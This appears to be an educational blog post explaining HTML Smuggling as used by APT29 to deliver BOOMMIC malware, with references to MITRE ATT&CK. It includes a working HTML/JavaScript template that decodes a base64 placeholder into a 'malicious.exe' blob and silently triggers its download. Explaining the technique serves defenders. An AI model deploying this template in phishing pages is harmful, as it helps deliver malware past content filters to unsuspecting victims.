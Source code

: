 ![](https://miro.medium.com/max/828/0*Aw6bV3Z25-ZvigSU.webp)

A few years ago, NOBELIUM APT, or APT29, were using a technique known as HTML Smuggling, which allowed them to deliver malicious software, such as banking trojans, through the legitimate resources of HTML5 and Javascript. With this technique, attackers could refine their malicious page and consequently bypass a firewall within a network.

The technique was used to deploy BOOMMIC malware onto target machines via a phishing campaign, known as spear phishing. The malware’s purpose was government agencies and maintaining access to the target’s machines.

## How Does the Technique Work?

Adversaries can smuggle data and files through content filters, hiding malicious payloads within seemingly benign HTML files. HTML documents can store large binary objects known as JavaScript Blobs (immutable data representing raw bytes) that can later be built into file-like objects. Data can also be stored in data URLs, which allow embedding media types or MIME files inline from HTML documents. HTML5 also introduced a download attribute that can be used to initiate file downloads.

Adversaries can deliver payloads to victims who bypass security controls by smuggling HTML, abusing JavaScript Blobs and/or HTML5 download attributes. Security controls such as web content filters may not identify malicious files smuggled within HTML/JS files, as the content may be based on typically benign MIME types such as text/plaine/or text/html. Malicious files or data can be obfuscated and hidden within HTML files via data URLs and/or JavaScript Blobs and can be unobstructed when they reach the victim (i.e. Deobfuscate/Decode files or information), potentially bypassing content filters.

This is a graphic example of an HTML Smuggling based attack by [CyberHoot](https://cyberhoot.com/):

![](https://miro.medium.com/max/828/0*fUcYhkmQDfxaazXR.webp)

## Demonstration

This is an example of the exploit script:

```
<html>
   <body>
      <script>
         function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array(len);
            for (var i = 0; i < len; i++) {
                bytes[i] = binary_string.charCodeAt(i); 
            } 
            return bytes.buffer;
         } 
         var file = "BASE64 FILE HERE";
         var data = base64ToArrayBuffer(file);
         var blob = new Blob([data], {type: "octet/stream"});
         var fileName = "malicious.exe";
         var a = document.createElement("a");
         document.body.appendChild(a);
         a.style = "display: none";
         var url = window.URL.createObjectURL(blob);
         a.href = url;
         a.download = fileName;
         a.click();
         window.URL.revokeObjectURL(url);
      </script>
   </body>
</html>
```

Execution:

![](https://miro.medium.com/max/640/1*gpziN4bCL-WNKCJNP52obA.webp)

![](https://miro.medium.com/max/828/1*Rcuw8t4u_63wYz2ECBetMg.webp)

## References
* https://securityaffairs.co/wordpress/124522/hacking/html-smuggling-technique.html
* https://attack.mitre.org/techniques/T1027/006/
* https://socprime.com/blog/novel-beatdrop-and-boommic-malware-families-used-by-apt29-phishing-campaigns-with-html-smuggling-techniques-long-term-access-for-espionage-purposes/
* https://cyware.com/news/microsoft-observes-an-uptick-in-html-smuggling-attacks-0dd0ead1
* https://cyberhoot.com/cybrary/html-smuggling/
